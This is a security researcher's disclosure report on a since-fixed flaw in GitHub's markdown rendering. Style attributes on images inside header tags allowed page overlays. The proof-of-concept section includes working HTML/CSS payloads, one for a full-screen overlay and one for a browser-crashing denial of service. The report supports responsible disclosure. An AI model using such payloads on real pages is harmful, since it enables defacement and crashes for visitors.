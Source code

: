 # 2023/10 Github markdown vulnerability

### Executive Summary
- **Date of Discovery:** October 8, 2023
- **Date of Resolution:** October 15, 2023
- **Date of Initial Report:** October 10, 2023
- **Identified By:** Luna Davis ([Bytexenon](https://github.com/Bytexenon))
- **Classification of Vulnerability:** Cross-Site Scripting (XSS)
- **Services Impacted:** Github (https://github.com/), Github-Favored Markdown (https://github.github.com/gfm/)
- **Extent of Impact:** The vulnerability has a broad reach, affecting multiple URL patterns on GitHub. This includes user and organization profiles, repository main pages, individual issue pages, and Markdown files within any repository. The specific patterns that are impacted include:
  - `https://github.com/<user,organization>` (If a malicious `README.md` exists in the user or organization's repository)
  - `https://github.com/<user,organization>/<repository>` (If the repository has a malicious `README.md` file)
  - `https://github.com/<user,organization>/<repository>/issues/<issue>`
  - `https://github.com/<user,organization>/<repository>/**.md` (Any `.md` file in any directory)
  - `https://github.com/<user,organization>/<repository>/**` (If the directory has a malicious `README.md` file)
  - Additional patterns may be affected, but these are the ones that have been tested so far. Essentially, any URL that renders a user-entered Markdown file was vulnerable.
- **Method of Discovery:** Manual Testing
- **Severity Level:** Low to Medium. The exploit does not enable arbitrary code execution, data theft, or redirection to malicious sites. However, it does allow an attacker to replace an attacker-controlled page (their own Github profile, any of their issues, etc.) with a full-screen image with any CSS styling, or to create a series of images that could crash the browser.
- **Current Status:** Resolved.

### Description

Github's markdown parser, known as cmark, allows for the use of HTML tags to enhance the formatting of the markdown. However, for security reasons, it restricts the use of certain attributes such as style and script to prevent potential Cross-Site Scripting (XSS) attacks. Despite these restrictions, I discovered a bypass that allows the style attribute to be used within an `<img>` element, but only when this element is nested inside any header (`<h1>`, `<h2>`, `<h3>`, `<h4>`, `<h5>`, `<h6>`) element. This bypass can be exploited to apply arbitrary CSS styles to the image, potentially leading to various forms of visual manipulation on the rendered page.

### Discovery

While experimenting with Github's markdown parser to enhance the aesthetics of my profile's README.md file, I discovered that HTML tags were permissible in their markdown. This is a common feature in most markdown parsers to allow for more complex formatting. However, what caught my attention was the ability to use the style attribute within nested `<img>` elements that were inside any header elements. This was an unexpected behavior as the style attribute is typically restricted to prevent potential XSS attacks.

To validate this finding, I created a simple HTML page with a nested `<img>` element inside a header element and applied a style attribute to it. I then uploaded this HTML content to my Github profile's README.md file. To my surprise, the style attribute was successfully rendered, allowing me to apply arbitrary CSS styles to the image.

Intrigued by this discovery, I decided to test this behavior on other Github pages. I found that this bypass was not limited to the README.md file of my profile but was applicable on any Github page that rendered a user-entered Markdown file. This included user and organization profiles, repository main pages, individual issue pages, and Markdown files within any repository. This discovery indicated a widespread impact of this vulnerability, affecting multiple URL patterns on GitHub.

### Proof of Concept

**Replace any page with Github's full-screen favicon:**
```html
<h1>
  <img style="position:fixed;left:0%;top:0%;opacity:100%;z-index:999;width:100%;height:100%;background-image:url(https://github.com/favicon.ico);">
</h1>
```

**DoS attack against any browser that renders the page:**
```html
<h1>
  <img style="position: fixed; filter: blur(0px) saturation(21.75); opacity: 50%; top: 50%; z-index: 9999999; left: 50%; transform: translate(-50%, -50%) rotate(0deg); cursor: url(https://github.com/favicon.ico) 20 2, pointer; width: 100vw; height: 100%; background-image: url(https://github.com/favicon.ico); filter: blur(9999px) brightness(9999%) contrast(9999%) drop-shadow(9999999999px 9999999999px 9999999999px red) invert(9999999999%); transform: rotate(45deg) scale(99999) skew(30deg, 20deg) translate(100px, 100px);">
  <img style="position: fixed; filter: blur(0px) saturation(21.75); opacity: 50%; top: 50%; z-index: 9999999; left: 50%; transform: translate(-50%, -50%) rotate(0deg); cursor: url(https://github.com/favicon.ico) 20 2, pointer; width: 100vw; height: 100%; background-image: url(https://github.com/favicon.ico); filter: blur(9999px) brightness(9999%) contrast(9999%) drop-shadow(9999999999px 9999999999px 9999999999px red) invert(9999999999%); transform: rotate(45deg) scale(99999) skew(30deg, 20deg) translate(100px, 100px);">
  <img style="position: fixed; filter: blur(0px) saturation(21.75); opacity: 50%; top: 50%; z-index: 9999999; left: 50%; transform: translate(-50%, -50%) rotate(0deg); cursor: url(https://github.com/favicon.ico) 20 2, pointer; width: 100vw; height: 100%; background-image: url(https://github.com/favicon.ico); filter: blur(9999px) brightness(9999%) contrast(9999%) drop-shadow(9999999999px 9999999999px 9999999999px red) invert(9999999999%); transform: rotate(45deg) scale(99999) skew(30deg, 20deg) translate(100px, 100px);">
  <img style="position: fixed; filter: blur(0px) saturation(21.75); opacity: 50%; top: 50%; z-index: 9999999; left: 50%; transform: translate(-50%, -50%) rotate(0deg); cursor: url(https://github.com/favicon.ico) 20 2, pointer; width: 100vw; height: 100%; background-image: url(https://github.com/favicon.ico); filter: blur(9999px) brightness(9999%) contrast(9999%) drop-shadow(9999999999px 9999999999px 9999999999px red) invert(9999999999%); transform: rotate(45deg) scale(99999) skew(30deg, 20deg) translate(100px, 100px);">
  <img style="position: fixed; filter: blur(0px) saturation(21.75); opacity: 50%; top: 50%; z-index: 9999999; left: 50%; transform: translate(-50%, -50%) rotate(0deg); cursor: url(https://github.com/favicon.ico) 20 2, pointer; width: 100vw; height: 100%; background-image: url(https://github.com/favicon.ico); filter: blur(9999px) brightness(9999%) contrast(9999%) drop-shadow(9999999999px 9999999999px 9999999999px red) invert(9999999999%); transform: rotate(45deg) scale(99999) skew(30deg, 20deg) translate(100px, 100px);">
</h1>
```
(Could be repeated indefinitely to make it more effective)

### Resolution

The GitHub security team demonstrated exceptional responsiveness and efficiency in addressing the reported vulnerability. Within a week of the initial report, they successfully resolved the issue, reflecting their commitment to maintaining a secure platform. Their cooperation and assistance throughout the process were commendable.

**Screenshots of the partial conversation:**

[My initial report](images/image-1.png)

[Github's response 1](images/image-2.png)

[Github's resolution response](images/image-3.png)

The name of the security engineer has been redacted for privacy reasons.

### Archived pages of the vulnerability

[My profile](https://web.archive.org/web/20231009182556/https://github.com/ByteXenon)

This page was archived after the vulnerability was reported, but before it was resolved. It shows the exploit in action. The page has since been updated to remove the exploit, and it was never used for malicious purposes (at least not by me).

### Closing Thoughts

In retrospect, while I was aware of conventional vulnerability-reporting platforms such as HackerOne, I was not aware at the time that GitHub utilized this platform for their bug bounty program. My primary goal was to ensure the vulnerability was reported as quickly as possible, and as such, I used the most immediate channel available to me, which was GitHub's support form.

Despite this initial misstep, the experience was highly educational. The responsiveness and helpfulness of GitHub's team were commendable. Their handling of the vulnerability report serves as an excellent example for others. I look forward to potentially uncovering more vulnerabilities in their service and reporting them through the appropriate channels. Thank you for taking the time to read this report. Have a great day!